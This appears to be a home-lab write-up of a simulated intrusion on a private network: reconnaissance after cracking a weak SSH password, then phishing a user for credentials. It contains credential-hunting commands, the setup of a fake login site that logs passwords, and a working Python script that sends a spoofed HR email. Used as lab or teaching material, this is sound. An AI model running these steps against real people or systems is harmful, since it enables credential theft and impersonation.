





Initial Access is the first phase in a cyber-attack where adversaries seek to establish a foothold in the target network or system. It is the gateway for attackers to gain entry, enabling them to progress through subsequent stages of an attack, such as privilege escalation, lateral movement, and data exfiltration. I have already established initial access with this Ubuntu server by cracking the weak password. 

Now I need to perform additional reconnaissance on this device to see what type of device it is, what services are running and perhaps if there’s any connection to other devices. 

- first, I will find out what OS version and distribution the machine I accessed is using
	- cat /etc/os-release
- the hostname of this device
	- hostname
- the IP address of the device
	- ip a
- I can also look for any active services, which could be potential attack vectors
	- netstat -tuln
- I can also try to find configuration files, user credentials, and other sensitive information
	- ls -la /home (check user home directories)
	- ls -la /etc (check configuration files)
	- ls -la ~/.ssh/ (view SSH keys and known hosts)
	- find / -name “password” 2>/dev/null (search for any files containing the password string)

I see simulated SMTP 1025 is listening, perhaps this device may act as some sort of email relay, server, or something to do with email.
Most servers will not have SMTP running unless explicitly enabled.
I can also see I am in the 10.0.0.0/24 range, a private IP address range, used in Local Area Network (LAN)s.
Based on the nmap scans, I can see there is a device called linux-client running on 10.0.0.101. 



- again the SSH protocol is running, but if I attempt to find the password the same way as before, I get nothing
- this means the password for this connection os not in the rockyou.txt file, so i need to try something else
- I know that MailHog runs on port 1025, and HTTP server runs on 8025

- I searh on google how to query the MailHog API to retrieve messages
	- `curl http://10.0.0.8:8025/api/v2/messages`



## Sending the phishing email

- looking into the first email, I can see there’s an email address, janed@linux-client 
- I am going to send an email to this user, impersonating the email server (since it’s trusted in the network) and will likely route directly to the inbox. 
- this phishing email will direct the recipient to a fake web site where they are prompted to enter their username and password, the credentials will be logged on the attacker machine
- for the web site I used a GitHub project

- I go to /var/www/html and use `git clone https://github.com/collinsmc23/projectsecurity-e101` to download the website project
- I make a new logging file to log the captured credentials, and set permissions on this file:
	- `sudo touch /var/www/html/creds.log`
	- `sudo chmod 666 /var/www/html/creds.log`
- then I can start the apache2 webservice:
	- `sudo service apache2 start`



- I generated the message with ChatGPT
- then, as root in the project-x-corp-svr, i created a python program for sending the email:
```
import smtplib
from email.message import EmailMessage

msg = EmailMessage()
msg["Subject"] = "Update Password!"
msg["From"] = "project-x-hrteam@corp.project-x-dc.com"
msg["To"] = "janed@linux-client"

# Plain text version (fallback)
msg.set_content("Hey Jane! This is HR, make sure to update your password info.")

# HTML version
html_content = """
<html>
  <body>
    <p>Hey Jane!<br>
We noticed an unusual login attempt on your account, and for your security, we have temporarily locked access. To restore access, please verify your account credentials within the next 24 hours. Failure to do so may result in permanent restrictions on your account.
To verify your credentials, please click the link below:</p>
<a href='http://10.0.0.50'>Verify My Account</a>
<p>For assistance, please contact our support team at support@company.com.
Thank you for your prompt attention to this matter.
Best regards,
ProjectX Security Team
    </p>
  </body>
</html>
"""

msg.add_alternative(html_content, subtype='html')

# Send the email
with smtplib.SMTP("localhost", 1025) as server:
    server.send_message(msg)
```

If Jane were to open this email on a regular email client, such as Gmail, the email would use the “hyperlink” feature, which makes the address concealed. In this scenario, Jane would likely know this is a phishing email just by looking at the contents in <a href>.
- after all this, I can send the email to Jane
	- `sudo python3 send_email.yp`



## What the recepient of the email sees

- now, as janed, first I need to run the script for checking the inbox:
	- `cd /home && ./email_poller.sh &`



- now if janed enters her credentials in the fake website, they will appear on the attacker's machine
- Based on my previous nmap scans, I know that the host 10.0.0.101 has SSH up and running, let’s attempt to log in
	- `ssh janed@10.0.0.101` => success

